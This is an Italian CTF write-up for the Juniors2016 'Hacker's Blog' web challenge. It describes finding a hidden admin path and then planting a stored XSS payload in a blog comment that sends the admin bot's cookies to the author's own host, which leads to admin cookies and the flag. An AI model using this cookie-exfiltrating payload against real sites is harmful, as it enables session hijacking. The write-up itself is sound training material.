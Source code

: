 ```yaml
---
layout: post
title:  "Juniors2016 - Hacker's Blog"
date:   2016-12-14 03:15
categories: CTF
tags: [web,Juniors2016]
author: jbz
---
```


*PREMESSA: per accedere a questa challenge bisognava utilizzare una VPN fornita dagli organizzatori.*

Veniva dato un sito web, `http://10.0.7.216:54337`: un blog.

Cliccando su uno dei post ho notato che l'URL è il canoninco `post.php_id=<id>`. Ho provato a forzare un errore SQL ma non era vulnerabile.

Ho notato che i vari post permettevano commenti. Ho provato ad inserire un commento e mi veniva restituito un errore in russo che tradotto diceva:
> Un amministratore deve confermare il commento.

Ho pensato quindi che il sito potrebbe essere vulnerabile a Cross Site Scripting.

Ho guardato il sorgente della pagina e ho notato questo commento:

`<!-- Secret admin panel: aHR0cDovLzEwLjAuNy4yMTY6NTQzMzcvYWRtaW42NDY0MS5waHA= -->`

Che decodificato restituisce:

`http://10.0.7.216:54337/admin64641.php`

Sono andato a quell'indirizzo e mi veniva restituito un errore (sempre in russo) che tradotto era:
>Username e password sbagliati.

Ho postato quindi un commento con questo payload (10.3.2.2. era il mio indirizzo IP):

```html
<script>document.write('<img src=http://10.3.2.2:8000/?' + document.cookie +'>')</script>
```

Ho scoperto che il cookie del bot era `login=admin`. Ho impostato il cookie, sono tornato nella pagina admin che ho trovato in precedenza, ma purtroppo ottenevo lo stesso errore.

Ho provato quindi un altro payload, per recuperare `document.location` ed ho ottenuto l'indirizzo `http://10.0.7.216:54337/bot_check.php?check=4e195228ec31dd6f3fef492`. Ho fatto una richiesta a quell'indirizzo e ho notato che il webserver mi ha settato due cookie:

```http
Set-Cookie: login=admin; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
Set-Cookie: password=e0377f6e85d987d81e96c0381c789360fe90547bdf9be3b5082a492b9c4184f7; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
```

Con questi cookie, sono tornato alla pagina admin che ho trovato in precedenza ed ho ottenuto la flag:

> Флаг:
>
> 1true_haCkeers1337_XSS

